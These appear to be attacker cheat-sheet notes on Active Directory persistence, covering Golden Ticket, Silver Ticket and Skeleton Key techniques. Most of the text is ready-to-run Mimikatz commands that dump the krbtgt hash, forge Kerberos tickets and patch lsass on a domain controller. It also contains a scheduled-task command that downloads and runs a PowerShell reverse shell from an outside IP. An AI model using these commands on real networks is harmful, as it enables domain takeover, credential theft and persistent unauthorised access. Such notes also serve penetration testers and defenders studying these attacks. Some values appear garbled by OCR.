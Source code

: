### Golden Ticket

skip the Kerberos workflow

- The only TGT(ticket granting ticket) validation is based on the krbtgt account hash, if we have the krbtgt account hash, we are able to forge one "Golden Ticket", which can be used to query for TGS(ticket granting service) when we need it.
- password change **once** won't affect it

Use of mimkatz:

- Execute on DC as Domain Admin to get krbtgt hash:
  - `Invoke-Mimikatz -Command '"lsadump::lsa /patch"' – Computername <computername>`

- Create a golden ticket on any machine:
  - `Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<current domain> /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"' `

- use DCSync feature to get krbtgt hash, execute the command as Domain Admin (no need to run on DC)
  - `Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'`

### Silver Ticket

- The TGS(ticket granting service) validation is based on the NTLM hash of the service account.
- Services rarely check PAC(Privileged Attribute Certificate)

Use of mimkatz:

- Using hash of the Domain Controller computer account, below command provides access to shares on the DC. 

  - `Invoke-Mimikatz -Command '"kerberos::golden /domain:<current domain> /sid:S-1-5-211874506631-3219952063-538504511 /target:<dc> /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'` (CIFS is `Common Internet File System`, enable current user to access the file system remotely, refer to https://adsecurity.org/?page_id=183 for more SPNs)

- Create a silver ticket for the HOST SPN which will allow us to schedule a task on the target: 
  - `Invoke-Mimikatz -Command '"kerberos::golden /domain:<current domain> /sid:S-1-5-211874506631-3219952063-538504511 /target:<domain> /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'` 
  - `schtasks /create /S dc.domain.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:808 0/Invoke-PowerShellTcp.ps1''')'"`
  - `schtasks /Run /S <dc> /TN "STCheck"`

### Skeleton Key

- patch the lsass.exe process on DC to allow access as any user with a single password
- not persistent against reboot

- Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required
  - `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <dc>`
- access any machine with a valid username and password as "mimikatz"
  - `Enter-PSSession –Computername <dc> –credential domain\Administrator`
